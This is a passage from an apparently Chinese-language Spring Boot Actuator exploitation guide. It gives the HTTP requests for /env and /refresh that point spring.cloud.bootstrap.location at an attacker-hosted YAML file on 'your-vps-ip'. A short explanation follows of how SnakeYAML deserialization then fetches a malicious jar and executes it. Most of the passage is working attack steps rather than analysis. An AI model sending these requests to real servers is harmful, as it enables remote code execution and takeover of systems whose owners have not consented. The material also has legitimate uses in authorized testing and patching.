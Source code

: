 在网站根目录下放置后缀为 `jar` 的文件  `example.jar`，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。



##### 步骤二： 设置 spring.cloud.bootstrap.location 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```



##### 步骤三： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



#### 漏洞原理：

1. spring.cloud.bootstrap.location 属性被设置为外部恶意 yml 文件 URL 地址
2. refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容
3. SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml 内容时会完成指定的动作
4. 先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件
5. 然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory 接口的类并实例化
6. 实例化类时执行恶意代码，造成 RCE 漏洞



#### 漏洞分析：

​	[Exploit Spring Boot Actuator 之 Spring Cloud Env 学习笔记](https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/)
